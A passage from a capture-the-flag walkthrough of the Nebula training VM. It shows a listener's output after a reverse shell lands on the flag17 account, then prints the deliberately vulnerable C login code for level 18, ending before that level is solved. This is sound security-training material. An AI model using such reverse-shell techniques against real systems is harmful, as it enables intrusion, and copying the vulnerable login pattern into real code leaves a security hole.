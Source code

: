 We obtain a shell with our listener.

```shell
Ncat: Connection from 192.168.144.192.
Ncat: Connection from 192.168.144.192:36817.
bash: no job control in this shell
flag17@nebula:/$ whoami
whoami
flag17
flag17@nebula:/$ id
id
uid=982(flag17) gid=982(flag17) groups=982(flag17)
flag17@nebula:/$ getflag
getflag
You have successfully executed getflag on a target account
```

# level 18

We are given the below source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>
#include <fcntl.h>
#include <getopt.h>

struct {
  FILE *debugfile;
  int verbose;
  int loggedin;
} globals;

#define dprintf(...) if(globals.debugfile) \
  fprintf(globals.debugfile, __VA_ARGS__)
#define dvprintf(num, ...) if(globals.debugfile && globals.verbose >= num) \
  fprintf(globals.debugfile, __VA_ARGS__)

#define PWFILE "/home/flag18/password"

void login(char *pw)
{
  FILE *fp;

  fp = fopen(PWFILE, "r");
  if(fp) {
      char file[64];

      if(fgets(file, sizeof(file) - 1, fp) == NULL) {
          dprintf("Unable to read password file %s\n", PWFILE);
          return;
      }
                fclose(fp);
      if(strcmp(pw, file) != 0) return;
  }
  dprintf("logged in successfully (with%s password file)\n",
      fp == NULL ? "out" : "");

  globals.loggedin = 1;

}
```

[exploit-exercises]: https://exploit-exercises.com
[gnu-coreutils-env]: https://www.gnu.org/software/coreutils/manual/html_node/env-invocation.html
[pcre-modifier]: http://php.net/manual/en/reference.pcre.pattern.modifiers.php
[nebula-11-gist]: https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9#file-nebula-level11-md